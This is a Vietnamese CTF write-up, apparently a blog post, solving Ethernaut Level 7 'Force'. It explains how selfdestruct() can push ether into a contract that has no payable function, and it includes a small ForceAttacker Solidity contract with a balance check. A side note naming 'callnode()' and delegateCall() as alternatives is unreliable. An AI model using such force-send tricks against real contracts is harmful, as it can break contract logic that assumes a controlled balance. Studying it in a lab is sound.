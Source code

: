 ```yaml
---
title: "[Ethernaut CTF] Level 7: Force"
date: 2023-10-01 10:45:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel7.svg
---
```

# Level 7: Force
## ★★★☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
## Phân tích

Chúng ta được cho một contract rỗng và được yêu cầu phải chuyển ether vào contract này.
Cách duy nhất để chuyển ether vào contract rỗng này là dùng phương thức ``selfdestruct()``  
>Note: Trong đề xuất EIP-6049: ``selfdestruct()`` được khuyến nghị không nên sử dụng từ version 0.8.18 và sẽ hiển thị warning khi dùng trong solidity vì các vấn đề bảo mật  

Bạn có thể đọc thêm về ``selfdestruct()`` tại [đây](https://solidity-by-example.org/hacks/self-destruct/)  


## selfdestruct()
Hiểu đơn giản về ``selfdestruct()`` là ta sẽ delete một contract và gửi toàn bộ ether có trong contract đó về một address nào đó ``selfdestruct(someone_addr)``.
>Tuy nói là delete nhưng block đó vẫn được giữ lại trong ethereum node, không giống như khi ta delete data.  

> Note: Ngoài ``selfdestruct()``, ta vẫn có thể thực hiện operation tương tự với ``delegateCall()`` hay ``callnode()``

## Solution
**Target**: bằng cách nào đó chuyển vào contract này một ít ether.  
- Ta sẽ viết 1 contract đơn giản và deploy nó trên remix và cho value là 100 wei, thế là sau khi deploy ta đã thành công send vào contract của challenge một ít ether rồi


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.3 <0.9.0;

contract ForceAttacker {
    constructor(address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

Check lại balance của contract
```javascript
await contract.balance()
0.0000000000000001
```

**Submit** -> Done



